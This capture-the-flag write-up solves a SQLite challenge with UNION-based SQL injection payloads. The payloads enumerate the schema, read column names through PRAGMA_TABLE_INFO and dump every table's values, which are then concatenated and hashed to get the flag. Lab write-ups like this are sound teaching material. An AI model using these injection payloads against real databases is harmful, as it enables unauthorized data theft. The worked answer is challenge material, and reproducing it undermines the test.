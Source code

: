 # Make Your Selection 3

### Challenge

***This flag is the SHA256 hash of all column values from all tables from Make Your Selection 1. Order the values alphabetically by table name, then column name then value. goto clue for more info.***

Start with solution from Make Your Selection 1:

    xyz' UNION ALL SELECT name FROM sqlite_schema WHERE type ='table' AND name NOT LIKE 'sqlite_%'; --

now find column names for each table

    xyz' UNION ALL SELECT name FROM PRAGMA_TABLE_INFO('Fruit'); --
    xyz' UNION ALL SELECT name FROM PRAGMA_TABLE_INFO('FruitColor'); --
    xyz' UNION ALL SELECT name FROM PRAGMA_TABLE_INFO('FruitGrowsOn'); --
    xyz' UNION ALL SELECT name FROM PRAGMA_TABLE_INFO('FruitSeason'); --

Now that you know all the column names, start selecting each column from each table:

    xyz' UNION ALL SELECT Id FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitName FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitGrowsOnId FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitColorId FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitSeasonId FROM Fruit order by 1; --
    ...etc.

When you have all values from all columns of all tables just put them together in order of table name then column name then value. Notice this table shows the tables in alphabetical order, then their columns in alphabetical order, then the values in alphabetical order.


| Fruit.FruitColorID | Fruit.FruitGrowsOnID | Fruit.FruitName | Fruit.Id | Fruit.SeasonID| FruitColor.Color | FruitColor.Id | FruitGrowsOn.Id | FruitGrowsOn.PlantType | FruitSeason.Id | FruitSeason.Season|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|123456|111234|AppleBananaBlueberryGrapeOrangeStrawberry|133334|123456|BlueGreenOrangePurpleRedYellow|123456|1234|BushrunnerTreeVine|1234|FallSpringSummerWinter|

All together it evaluates to 
123456111234AppleBananaBlueberryGrapeOrangeStrawberry133334123456BlueGreenOrangePurpleRedYellow1234561234BushrunnerTreeVine1234FallSpringSummerWinter

Finally, compute the SHA256 hash of that value. Use an online tool or your favorite programming language.

